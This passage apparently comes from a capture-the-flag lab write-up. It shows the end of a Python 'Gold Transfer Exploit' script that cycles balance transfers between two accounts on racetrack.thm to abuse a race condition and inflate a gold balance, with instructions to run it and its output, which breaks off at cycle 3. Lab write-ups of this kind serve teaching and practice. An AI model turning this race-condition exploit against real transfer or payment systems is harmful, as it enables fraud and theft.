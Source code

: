 ```python
    print(f"{Fore.MAGENTA}Target balance: {Fore.YELLOW}10,000 gold{Style.RESET_ALL}\n")
    
    total_gold = 0
    cycle_count = 0
    user_list = list(USERS.keys())
    
    while total_gold < 10000:
        # Determine current sender/receiver pair
        sender = user_list[cycle_count % 2]
        receiver = user_list[(cycle_count + 1) % 2]
        
        print(f"{Fore.WHITE}{'═'*50}")
        print(f"{Fore.BLUE}[⚡] Cycle #{cycle_count+1}: {sender} → {receiver}")
        
        # Retrieve sender credentials and balance
        session_id, current_gold = get_user_session(sender, USERS[sender])
        total_gold = current_gold
        
        if current_gold > 0 and session_id:
            transfer_gold(receiver, session_id, current_gold)
        else:
            print(f"{Fore.RED}[✗] Skipping transfer - insufficient gold or invalid session")
        
        cycle_count += 1
    
    print(f"\n{Fore.GREEN}{Style.BRIGHT}🎉 Exploit successful! Final balance: {total_gold} gold")

if __name__ == "__main__":
    print(f"\n{Fore.YELLOW}{Style.BRIGHT}🌟 Gold Transfer Exploit v2.0")
    print(f"{Fore.CYAN}Target: {TARGET_HOST}")
    print(f"{Fore.MAGENTA}Accounts: {', '.join(USERS.keys())}\n")
    
    execute_gold_race()
```

In order for the script to work we need to create two new accounts to get the `1 gold`, once you have them, run the script:

```
python3 exploit.py

🌟 Gold Transfer Exploit v2.0
Target: racetrack.thm
Accounts: acc1, acc2


🏁 Starting Gold Race Exploitation 🏁

Target balance: 10,000 gold

══════════════════════════════════════════════════
[⚡] Cycle #1: acc1 → acc2
[💰] acc1 balance: 1 gold

[➤] Initiating transfer of 1 gold to acc2
[✓] Transfer completed!
══════════════════════════════════════════════════
[⚡] Cycle #2: acc2 → acc1
[💰] acc2 balance: 16 gold

[➤] Initiating transfer of 16 gold to acc1
[✓] Transfer completed!
══════════════════════════════════════════════════
[⚡] Cycle #3: acc1 → acc2
```